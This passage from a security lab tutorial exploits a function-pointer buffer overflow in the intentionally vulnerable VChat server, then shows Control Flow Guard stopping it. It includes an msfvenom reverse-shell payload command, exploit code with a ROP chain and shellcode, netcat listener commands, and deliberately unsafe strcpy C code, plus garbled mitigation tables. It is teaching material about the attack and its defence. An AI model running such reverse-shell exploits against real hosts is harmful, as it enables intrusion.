    3. Save the address of the first POP instruction, we can see in this case the addresses are located in `Essfun` which does not have ASLR enabled. This will replace the 

        

12. Modify your program to reflect [exploit5.py](./SRC/Exploits/exploit5.py), we have modified the address we overflow the function pointer to be the address of the 3 `POP` instructions followed by a `RETN`, and we have moved the ROP Chain to be 2 bytes from start of the buffer.

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/23ab5693-0a65-4827-95ae-2da283157564

    1. Use the black *Go To Address in Disassembler* and enter in the address of the sequence of `pop` instructions you chose previously.

        

    2. Add a breakpoint.

        

    3. Observe the behavior of the program, we can see the ROP chain is now accessable and step through it till the call to `VirtualProtect(...)`, Be sure to not to step into the function call the `VirtualProtect(...)` as this will crash the process. 

        

13. Now we can add a payload to our exploit, this can be generated with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html). Once generated modify your exploit code to reflect [exploit6.py](./SRC/Exploits/exploit6.py).
    ```
    $ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0d'
    ```

14. We generate the payload with the following structure:
    ```
    buff = 8

    PAYLOAD = (
        b'FUNCC /.' +
        create_rop_chain() + 
        b'\x90' * buff + 
        SHELL +
        b'\x90' * (792 - (len(create_rop_chain()) + len(SHELL) + buff)) +
        struct.pack('<L', 0x00403C02) # This will need to be a function in a module with CFG enabled
    )
    ```
> [!NOTE]
> We put the Shellcode after 2 bytes or more of `NOP` instructions to prevent any conflicts/overwrites the VirtualProtect function would cause.

15. Start a Netcat listener on the Kali machine in a new terminal. 
    ```
    $ nc -l -v -p 8080
    ```
16. Run the Exploit and observe the results! 

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/5eb82fe9-ffdd-433f-a7bf-a8b7b69ddbbf

### CFG Enabled 
This section will use the [exploit6.py](./SRC/Exploits/exploit6.py) script we previously created. However, in this scenario we will enable the CFG protections we have previously disabled. This also means if you chose to do the previous section with DEP and ASLR disabled you will also need to enabled those protections for CFG to work properly and raise exceptions.

1. Open the VChat project in Visual Studio and select `Project -> Properties`.

    

2. Open the `C/C++ -> Code Generation` configuration window and enable *Control Flow Guard*:

    

3. Open the `Linker -> Advanced` configuration window and enable *Data Execution Protection* DEP and *Randomized Base Address* (ASLR). Once done apply the changes and close the configuration window.

    

4. Build the project with the shortcut `CTL+B` or by opening the `Build` window as shown below.

    

5. Open Immunity Debugger and attach it to the recompiled VChat executable.

    

6. Find a new sequence of 3 `POP` instructions followed by a `RETN`
   1. Right-click the Assembly view and select `Search For -> Sequence of Commands`:

        
    
   2. Search for the set of commands

        

        * `POP R32`: Searches for a POP instruction that stores the result in a 32-bit register
        * `RETN`: Return instruction

    3. Copy the address of the first POP instruction.

        

7. Modify your [exploit6.py](./SRC/Exploits/exploit6.py) script to use the new address, run the script and observe the results.

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/1948ff07-ca42-4d95-aa6b-1864109b072a

   1. Start a Netcat listener on the Kali machine in a new terminal. 
    ```
    $ nc -l -v -p 8080
    ```
   2. Set a breakpoint at the address of the first POP instruction:

        

   3. Run the [exploit6.py](./SRC/Exploits/exploit6.py) script and observe the results. Notice we end with a `INT 29` instruction, this raises an interrupt with code 29, based on [Microsoft's Docs](https://learn.microsoft.com/en-us/cpp/intrinsics/fastfail?view=msvc-170#:~:text=Internally%2C%20__fastfail%20is%20implemented%20by%20using%20several%20architecture%2Dspecific%20mechanisms%3A) this means the exception code will be located in the ECX register.

        

> [!IMPORTANT]
> Notice how we **did not** hit the breakpoint; this means the exception was raised when we attempted to perform the indirect function call.

   4. We can try running this in Visual Studio attached to a debugger to confirm this exception is thrown at the Indirect Function Call and is due to address we overwrote the original function pointer with.

        

> [!NOTE]
> The address we are overwriting the function pointer with my no longer valid due to the fact we enabled ASLR when compiling this project. As this is to give a more visual representation of the exception the address is not particularly important here as the exception will still be raised. In this case the location we pulled the series of POP instructions from did not appear to be randomized based on the additional information we could see when examining the function pointer local variable.


## Attack Mitigation Table
In this section we will discuss the effects a variety of defenses would have on *this specific attack* on the VChat server, specifically we will be discussing their effects on a buffer overflow that overwrites indirect function call and attempts to execute shellcode that has been written to the stack. We will make a note that these mitigations may be bypassed if the target application contains additional vulnerabilities such as a [format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack), or by using more complex exploits like [Return Oriented Programming (ROP)](https://github.com/DaintyJet/VChat_TRUN_ROP) which we use a variant of in this exploit.

First, we will examine the effects of individual defenses on this exploit, and then we will examine the effects of a combination of these defenses on the VChat exploit.

The mitigations we will be using in the following examination are:
* [Buffer Security Check (GS)](https://github.com/DaintyJet/VChat_Security_Cookies): Security Cookies are inserted on the stack to detect when critical data such as the base pointer, return address or arguments have been overflowed. Integrity is checked on function return.
* [Data Execution Prevention (DEP)](https://github.com/DaintyJet/VChat_DEP_Intro): Uses paged memory protection to mark all non-code (.text) sections as non-executable. This prevents shellcode on the stack or heap from being executed, as an exception will be raised.
* [Address Space Layout Randomization (ASLR)](https://github.com/DaintyJet/VChat_ASLR_Intro): This mitigation makes it harder to locate where functions and datastructures are located as their region's starting address will be randomized. This is only done when the process is loaded, and if a DLL has ASLR enabled it will only have it's addresses randomized again when it is no longer in use and has been unloaded from memory.
* [SafeSEH](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates that the exception handler we would like to execute is contained in a table generated at compile time. 
* [SEHOP](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates the integrity of the SEH chain during a runtime check.
* [Control Flow Guard (CFG)](https://github.com/DaintyJet/VChat_CFG): This mitigation verifies that indirect calls or jumps are performed to locations contained in a table generated at compile time. Examples of indirect calls or jumps include function pointers being used to call a function, or if you are using `C++` virtual functions, which would be considered indirect calls as you index a table of function pointers. 
* [Heap Integrity Validation](https://github.com/DaintyJet/VChat_Heap_Defense): This mitigation verifies the integrity of a heap when operations are performed on the heap itself, such as allocations or frees of heap objects.
### Individual Defenses: VChat Exploit 

> [!NOTE]
> In order for CFG on Windows to work, you must have both DEP and ASLR enabled. So, although neither DEP nor ASLR mitigate this class of attack, they are required for CFG to work at all.

|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|
|-|-|-|-|-|-|-|-|
|No Effect|X| | |X |X | X| X| |
|Partial Mitigation| |X|X| | | | |
|Full Mitigation|| | | | | | |X|
---

|Mitigation Level|Defenses|
|-|-|
|No Effect|SafeSEH, SEHOP, and Heap Integrity Validation |
|Partial Mitigation|Data Execution Prevention (DEP) or Address Space Layout Randomization |
|Full Mitigation| Control Flow Guard (CFG) |
* `Defense: Buffer Security Check (GS)`: This mitigation strategy does not prove effective as the control flow is diverted by an indirect call or jump before the function is able to properly return.
* `Defense: Data Execution Prevention (DEP)`: As we perform a variation of a ROP attack in this exploit it is possible to bypass the DEP protections applied to a process, this is only effective if an attacker does not take this into account before attempting to execute shellcode on the stack.
* `Defense: Address Space Layout Randomization (ASLR)`: This is partially effective as we use a ROP chain to bypass DEP protections which relys on gadgets whoes addresses are randomized. This increases the difficulty and reliability of generating ROP chains.
* `Defense: SafeSEH`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: SEHOP`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: Heap Integrity Validation`: This does not affect our exploit as we do not leverage the Windows Heap.
* `Defense: Control Flow Guard`: This mitigation is fully effective as it is designed to prevent the attacker from leveraging indirect calls or jumps, as we do here.
> [!NOTE]
> `Defense: Buffer Security Check (GS)`: If the application improperly initializes the global security cookie or contains additional vulnerabilities that can leak values on the stack, then this mitigation strategy can be bypassed.
>
> `Defense: Data Execution Prevention (DEP)`: If the attacker employs a [ROP Technique](https://github.com/DaintyJet/VChat_TRUN_ROP), then this defense can be bypassed.
 ### Combined Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|
|-|-|-|-|-|-|-|-|
|Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|**No Increase**: We are not overwriting the return address of a function to gain control over the flow of execution. This does not affect CFG.|**Partial Increased Security**: DEP is bypassed with the ROP chain but this increases the complexity of the exploit.|**Partial Increased Security**: ASLR randomizes the address of gadgets between executions or system boots DLLs will not have their addresses randomized unless they are fully unloaded.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The Windows Heap is not exploited.|X| |


> [!NOTE] 
> We omit repetitive rows representing the ineffective mitigation strategies as their cases are already covered.


## VChat Code
The following section discusses the source code of the VChat server, and should provide some insight as to why this exploit is possible. As the C language does not contain virtual functions natively we do not see the protection CFG would provide to the virtual function pointers.


The first code snippet to be discuss concerns the reason the overflow is possible, when we are processing the `FUNCC` request we first allocate a 2048 byte buffer that will have up to 2048 bytes (characters) written to it. There is a memory leak here, but an exploit occurs in this scope, as we are just copying the received buffer into a newly allocated character buffer, which will be passed to `Function5`. 
```c
else if (strncmp(RecvBuf, "FUNCC", 5) == 0) {
	/************************************************
	  Begin CFG Exploit Function
	************************************************/
	char* FuncBuff = malloc(2048);
	memset(FuncBuff, 0, 2048);
	strncpy(FuncBuff, RecvBuf, 2048);
	memset(RecvBuf, 0, DEFAULT_BUFLEN);
	Function5(FuncBuff);
	SendResult = send(Client, "FUNCC COMPLETE\n", 15, 0);
	/************************************************
	  End CFG Exploit Function
	************************************************/
}
```


The following structure is used in the CFG exploit `Function5`, this is added to prevent the optimizations Visual Studio does on the arrangement of local variables even when Optimizations are explicitly disabled. This ensures that the function pointer that contains the target of an indirect function call can be overflowed by the buffer. The *functionpointer* is a typedef of a function pointer for a signature `void ___(void)`.
```c
/* Structure used in CFG exploit */
typedef struct {
	char buff[800];
	funcionpointer tgt_func;
} function_auth;
```

The following function is where the budder overflow and indirect function call occur. As the previously mentioned structure is used to store both the target buffer and the indirect function call when the buffer `user_auth.buff` is overflowed through the use of unbounded copy in `strcpy`, the function pointer `user_auth.tgt_func` will be overwritten. As the indirect function call is performed before `Function5` returns so we are not overflowing the return address to modify the flow of control. This also means we are not going to be adjusting the ESP, or EBP registers with the function epilog of `leave` and `retn`. When we overflow the function if we are not using an address of a function entrypoint then we will also not be using the function entrypoint which adjusts the ESP and EBP in that manner; this is one of the reasons our ROP exploit in this case looks a bit different from the previous implementation.  
```c
void Function5(char* Input) {
	function_auth usr_auth;
	usr_auth.tgt_func = good_function;

	strcpy(usr_auth.buff, Input);

	/* Call function pointer */
	usr_auth.tgt_func(); 
	return;
}
```


## References
[[1] Control Flow Guard - Win32 app](https://docs.microsoft.com/en-us/windows/win32/secbp/control-flow-guard)

[[2] Exploring Control Flow Guard in Windows 10](https://sjc1-te-ftp.trendmicro.com/assets/wp/exploring-control-flow-guard-in-windows10.pdf)

[[3] Let’s talk about CFI: Microsoft Edition](https://blog.trailofbits.com/2016/12/27/lets-talk-about-cfi-microsoft-edition/)

[[4] Control-Flow Integrity Principles, Implementations, and Applications](https://dl.acm.org/doi/10.1145/1609956.1609960)

[[5] Fighting exploits with Control-Flow Integrity (CFI) in Clang](https://www.redhat.com/en/blog/fighting-exploits-control-flow-integrity-cfi-clang)

[[6] Clang 19.0.0git documentation CONTROL FLOW INTEGRITY](https://clang.llvm.org/docs/ControlFlowIntegrity.html)

[[7] Android Source Documentation - Control flow integrity](https://source.android.com/docs/security/test/cfi)

[[8] Exploit Development: Between a Rock and a (Xtended Flow) Guard Place: Examining XFG](https://connormcgarr.github.io/examining-xfg/)

[[9] Bypassing Control Flow Guard in Windows 10](https://blog.improsec.com/tech-blog/bypassing-control-flow-guard-in-windows-10)

[[10] The Current State of Exploit Development, Part 1](https://www.crowdstrike.com/blog/state-of-exploit-development-part-1/)

[[11] Memory Protection Constants](https://learn.microsoft.com/en-us/windows/win32/Memory/memory-protection-constants)
